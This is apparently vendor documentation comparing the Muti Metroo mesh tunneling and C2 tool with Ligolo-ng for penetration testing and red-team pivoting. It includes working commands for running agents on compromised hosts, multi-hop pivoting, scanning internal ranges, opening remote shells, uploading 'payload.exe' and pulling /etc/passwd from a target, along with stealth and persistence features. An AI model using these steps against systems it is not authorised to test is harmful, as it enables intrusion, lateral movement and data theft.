


# Muti Metroo vs Ligolo-ng

This guide provides a detailed comparison between Muti Metroo and [Ligolo-ng](https://github.com/nicocha30/ligolo-ng), a popular tunneling tool used in penetration testing and red team operations. Both tools enable secure access to internal networks through compromised hosts, but they take fundamentally different approaches.

## Overview

| Aspect | Muti Metroo | Ligolo-ng |
|--------|-------------|-----------|
| **Architecture** | Peer-to-peer mesh network | Client-server (proxy + agents) |
| **Connection Model** | Agents connect to each other | Agents connect to central proxy |
| **Traffic Handling** | SOCKS5 proxy (+ optional TUN via [Mutiauk](/mutiauk)) | TUN interface on proxy |
| **Multi-hop** | Native multi-hop routing | Manual chaining required |
| **E2E Encryption** | Yes (X25519 + ChaCha20-Poly1305) | TLS transport only |
| **Protocol Support** | TCP, UDP (via SOCKS5 UDP ASSOCIATE) | TCP, UDP, ICMP echo |
| **Transport Options** | QUIC, HTTP/2, WebSocket | TCP/TLS only |
| **Root Required** | No ([Mutiauk](/mutiauk) requires root if used) | Yes (on proxy for TUN) |
| **C2 Features** | Shell, file transfer, web dashboard | Basic tunnel management |

## Architecture Comparison

### Ligolo-ng: Centralized Proxy Model

Ligolo-ng uses a centralized architecture where all agents connect back to a single proxy server:



The proxy creates a TUN interface and routes traffic to agents. This is simple and effective for basic pivoting scenarios.

**Strengths:**
- Simple setup and operation
- Direct TUN interface means no SOCKS configuration needed
- All traffic (TCP, UDP, ICMP) flows naturally through the interface

**Limitations:**
- Single point of failure at the proxy
- All agents must reach the proxy directly (or through a listener chain)
- No end-to-end encryption between proxy and final destination

**Double pivoting:** When an agent cannot reach the proxy directly, Ligolo-ng supports chaining via listeners. You create a listener on an existing agent using `listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601`, then connect the new agent through that listener. Each hop requires manual listener setup, a new TUN interface, and route configuration.

### Muti Metroo: Decentralized Mesh Model

Muti Metroo creates a peer-to-peer mesh where agents connect to each other:



Traffic flows through the mesh following advertised routes. Any agent can serve as ingress, transit, or exit.

**Strengths:**
- No single point of failure
- Native multi-hop routing with automatic path discovery
- True end-to-end encryption (transit nodes cannot decrypt)
- Multiple transport protocols for different environments
- Rich C2 features (shell, file transfer, dashboard)

**Limitations:**
- More complex initial setup
- Requires SOCKS5-aware applications (or [Mutiauk](/mutiauk) for transparent routing)
- Certificate management for TLS/mTLS

## Feature Comparison

### Traffic Handling

| Feature | Muti Metroo | Ligolo-ng |
|---------|-------------|-----------|
| TCP tunneling | Yes (SOCKS5 CONNECT) | Yes (native TUN) |
| UDP tunneling | Yes (SOCKS5 UDP ASSOCIATE) | Yes (native TUN) |
| ICMP support | No | Yes (echo only) |
| Application config | SOCKS5 proxy settings | None (transparent TUN) |
| Transparent mode | Via [Mutiauk](/mutiauk) (Linux only) | Native |

**Ligolo-ng** uses a TUN interface which provides transparent traffic routing - applications need no configuration. However, this requires root privileges on the proxy.

**Muti Metroo** uses SOCKS5 proxy which requires application configuration but needs no root privileges. For transparent routing, the companion tool **[Mutiauk](/mutiauk)** provides a TUN interface on Linux (requires root).

### Transport Security

| Feature | Muti Metroo | Ligolo-ng |
|---------|-------------|-----------|
| Transport encryption | TLS 1.3 (QUIC/H2/WS) | TLS |
| Certificate options | CA-signed, self-signed, Let's Encrypt | Self-signed, Let's Encrypt |
| mTLS support | Yes | No |
| End-to-end encryption | Yes (X25519 + ChaCha20-Poly1305) | No |

**Critical difference:** Muti Metroo provides true end-to-end encryption where transit nodes cannot decrypt stream payloads. In Ligolo-ng, the proxy can see all traffic in plaintext.

### Multi-hop Capabilities

| Scenario | Muti Metroo | Ligolo-ng |
|----------|-------------|-----------|
| Single pivot | Native | Native |
| Double pivot | Native (automatic routing) | Manual (create listeners, manage sessions) |
| N-hop chains | Native (up to 16 hops by default) | Complex (each hop requires listener setup) |
| Path redundancy | Automatic failover | Manual reconfiguration |

**Muti Metroo** handles multi-hop scenarios automatically through flood-based route propagation. Routes are discovered and traffic flows through the optimal path.

**Ligolo-ng** requires manual setup for each additional hop:
1. Create listener on intermediate agent (`listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601`)
2. Connect new agent through the listener
3. Create additional TUN interface for new session
4. Add routes for the new network segment

### Transport Protocol Options

| Transport | Muti Metroo | Ligolo-ng |
|-----------|-------------|-----------|
| QUIC/UDP | Yes | No |
| HTTP/2 | Yes | No |
| WebSocket | Yes (with HTTP proxy support) | No |
| TCP/TLS | Yes | Yes |

Muti Metroo offers multiple transports for different network environments:
- **QUIC**: Best performance, requires UDP
- **HTTP/2**: Firewall-friendly, standard HTTPS
- **WebSocket**: Maximum compatibility, works through corporate proxies

### C2 Capabilities

| Feature | Muti Metroo | Ligolo-ng |
|---------|-------------|-----------|
| Remote shell | Yes (interactive PTY + streaming) | No |
| File transfer | Yes (streaming with compression) | No (manual via listeners) |
| Web dashboard | Yes (topology visualization) | Yes (v0.8+) |
| Remote agent management | Yes (via mesh) | Yes (basic) |
| Persistence | Yes (systemd, launchd, Windows Service) | No |

### Privilege Requirements

| Component | Muti Metroo | Ligolo-ng |
|-----------|-------------|-----------|
| Agent | No root | No root |
| Proxy/Ingress | No root | Root (for TUN) |
| [Mutiauk](/mutiauk) (TUN tool) | Root (Linux only) | N/A |

## Usage Comparison

### Basic Pivoting

**Ligolo-ng:**

```bash
# On attacker (Kali)
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert

# On target
./agent.exe -connect attacker:11601 -ignore-cert

# On attacker - select session and start tunnel
ligolo-ng >> session
ligolo-ng >> start

# Add route
sudo ip route add 192.168.1.0/24 dev ligolo

# Access internal network
nmap -sT -Pn 192.168.1.0/24
```

**Muti Metroo:**

```bash
# On attacker - initialize and run ingress agent
muti-metroo init -d ./data
muti-metroo setup  # Interactive wizard configures SOCKS5, peers, TLS
muti-metroo run -c config.yaml

# On target - run exit agent with routes
muti-metroo run -c exit-config.yaml
# exit-config.yaml specifies: exit.routes: ["192.168.1.0/24"]

# Access internal network via SOCKS5
curl -x socks5h://127.0.0.1:1080 http://192.168.1.10

# Or configure browser/application to use SOCKS5 proxy
```

### Double Pivoting

**Ligolo-ng** (manual listener setup):

```bash
# 1. Create second TUN interface on attacker machine
sudo ip tuntap add user kali mode tun ligolo-double
sudo ip link set ligolo-double up

# 2. In Ligolo proxy, select Agent 1 session and create listener
ligolo-ng >> session
# Select Agent 1
ligolo-ng >> listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
ligolo-ng >> listener_list  # Verify listener is active

# 3. On second target (no direct internet), connect through Agent 1
./agent.exe -connect 192.168.56.128:11601 -ignore-cert
# (use Agent 1's internal IP and the listener port)

# 4. Back in Ligolo proxy, switch to Agent 2 session and start tunnel
ligolo-ng >> session
# Select Agent 2
ligolo-ng >> tunnel_start --tun ligolo-double

# 5. Add route for second network on attacker machine
sudo ip route add 10.0.0.0/8 dev ligolo-double
```

Each additional hop requires repeating steps 1-5: create new TUN, add listener on current pivot, connect new agent through listener, start tunnel, add route.

**Muti Metroo** (automatic):

```bash
# Agent A (ingress) - already running with SOCKS5

# Agent B (transit) - connects to A
# config.yaml peers: [{ id: "agent-a-id", address: "..." }]
muti-metroo run -c transit-config.yaml

# Agent C (exit) - connects to B, advertises routes
# config.yaml:
#   peers: [{ id: "agent-b-id", address: "..." }]
#   exit:
#     routes: ["10.0.0.0/8"]
muti-metroo run -c exit-config.yaml

# Routes propagate automatically: A learns 10.0.0.0/8 via B via C
# Access immediately via SOCKS5 on Agent A
curl -x socks5h://127.0.0.1:1080 http://10.0.0.50
```

### Remote Command Execution

**Ligolo-ng:** Not supported natively. Requires separate C2 framework or manual shell access.

**Muti Metroo:**

```bash
# Execute command on remote agent
muti-metroo shell abc123def456 whoami

# Interactive shell (PTY)
muti-metroo shell --tty abc123def456 bash

# File transfer
muti-metroo upload abc123def456 ./payload.exe /tmp/payload.exe
muti-metroo download abc123def456 /etc/passwd ./passwd
```

### Transparent Traffic (TUN Interface)

**Ligolo-ng:** Built-in on proxy side.

**Muti Metroo with [Mutiauk](/mutiauk):**

```bash
# Install Mutiauk (Linux only)
curl -L -o mutiauk https://mutimetroo.com/downloads/mutiauk/mutiauk-linux-amd64
chmod +x mutiauk && sudo mv mutiauk /usr/local/bin/

# Configure (interactive wizard)
sudo mutiauk setup

# Or manual config
sudo tee /etc/mutiauk/config.yaml << 'EOF'
tun:
  name: tun0
  address: 10.200.200.1/24
socks5:
  server: 127.0.0.1:1080
routes:
  - destination: 192.168.1.0/24
    enabled: true
EOF

# Start Mutiauk daemon
sudo mutiauk daemon start

# Now all traffic to 192.168.1.0/24 routes through Muti Metroo
nmap -sT -Pn 192.168.1.0/24
```

## Migration Guide for Ligolo Users

If you are currently using Ligolo-ng and want to try Muti Metroo, here is how to translate common workflows:

### Conceptual Mapping

| Ligolo-ng Concept | Muti Metroo Equivalent |
|-------------------|------------------------|
| Proxy server | Ingress agent with SOCKS5 |
| Agent | Agent (can be ingress, transit, or exit) |
| TUN interface | [Mutiauk](/mutiauk) (optional) or SOCKS5 proxy |
| Session | Peer connection |
| Listener | Exit route advertisement |
| `start` command | Automatic (routes propagate) |

### Configuration Translation

**Ligolo-ng proxy setup:**
```bash
./proxy -selfcert -laddr 0.0.0.0:11601
```

**Muti Metroo ingress agent:**
```yaml
# config.yaml
agent:
  data_dir: ./data

listeners:
  - transport: quic
    address: "0.0.0.0:4433"

socks5:
  enabled: true
  address: "127.0.0.1:1080"

tls:
  cert: ./certs/agent.crt
  key: ./certs/agent.key
  ca: ./certs/ca.crt
```

**Ligolo-ng agent connection:**
```bash
./agent -connect proxy:11601 -ignore-cert
```

**Muti Metroo exit agent:**
```yaml
# exit-config.yaml
agent:
  data_dir: ./data

peers:
  - id: "ingress-agent-id"
    transport: quic
    address: "proxy:4433"

exit:
  enabled: true
  routes:
    - "192.168.1.0/24"
    - "10.0.0.0/8"

tls:
  cert: ./certs/agent.crt
  key: ./certs/agent.key
  ca: ./certs/ca.crt
```

### Key Workflow Differences

1. **Route Management**: In Ligolo-ng, you manually add routes with `ip route add`. In Muti Metroo, exit agents advertise routes and they propagate automatically.

2. **Session Selection**: Ligolo-ng requires selecting sessions and starting tunnels. Muti Metroo handles this automatically through its routing system.

3. **Multi-hop**: Ligolo-ng needs manual listener setup for each hop. Muti Metroo routes through multiple hops automatically.

4. **Traffic Access**: Ligolo-ng uses a TUN interface directly. Muti Metroo uses SOCKS5 (add [Mutiauk](/mutiauk) for TUN-like behavior).

## When to Use Which Tool

### Choose Ligolo-ng When:

- You need the simplest possible setup for basic pivoting
- Your scenario is single-hop only
- You need native ICMP support (ping)
- You want transparent routing without SOCKS5 configuration
- You prefer TUN-based traffic handling over proxy configuration
- You are already familiar with the tool and have established workflows

### Choose Muti Metroo When:

- You need multi-hop routing through multiple network segments
- Transit node security matters (E2E encryption)
- You need multiple transport options (HTTP/2, WebSocket for restrictive networks)
- You want integrated C2 features (shell, file transfer)
- You need a resilient mesh with no single point of failure
- You require mTLS mutual authentication
- Your operation requires stealth (configurable protocol identifiers)
- You need persistence and service installation

### Use Both Together:

For comprehensive coverage, you can use both tools:
- Ligolo-ng for quick, simple pivots during initial access
- Muti Metroo for persistent, multi-hop infrastructure during longer operations

## Performance Comparison

| Metric | Muti Metroo | Ligolo-ng |
|--------|-------------|-----------|
| Throughput | High (QUIC optimized) | 100+ Mbps |
| Latency per hop | 1-5ms (LAN), 50-200ms (WAN) | Low (single hop typical) |
| Memory per stream | 256KB buffer per hop | Minimal |
| Connection setup | 1-RTT (QUIC), 2-RTT (others) | Standard TLS |

Both tools offer excellent performance for typical penetration testing scenarios. Ligolo-ng may have slightly less overhead for single-hop scenarios, while Muti Metroo's QUIC transport provides better performance for high-latency or lossy connections.

## Summary

Both Muti Metroo and Ligolo-ng are capable tunneling tools, but they serve different use cases:

**Ligolo-ng** excels at simplicity - it is easy to set up, provides transparent TUN-based routing, and handles basic pivoting scenarios efficiently. It is an excellent choice for quick engagements where you need to pivot through a single compromised host.

**Muti Metroo** provides a more sophisticated mesh networking approach with true end-to-end encryption, automatic multi-hop routing, multiple transport options, and integrated C2 capabilities. It is better suited for complex operations requiring resilience, stealth, and advanced features.

The choice ultimately depends on your operational requirements, the complexity of the target environment, and whether you need the additional security and features that Muti Metroo provides.

## Related Resources

- [Getting Started](/getting-started/overview) - Begin using Muti Metroo
- [Red Team Operations](/red-team/overview) - OPSEC and operational guidance
- [Transport Selection](/red-team/transport-selection) - Choosing the right transport
- [Mutiauk TUN Interface](/mutiauk) - Transparent traffic routing
- [Ligolo-ng Documentation](https://docs.ligolo.ng/) - Official Ligolo-ng docs
- [Ligolo-ng GitHub](https://github.com/nicocha30/ligolo-ng) - Ligolo-ng source code
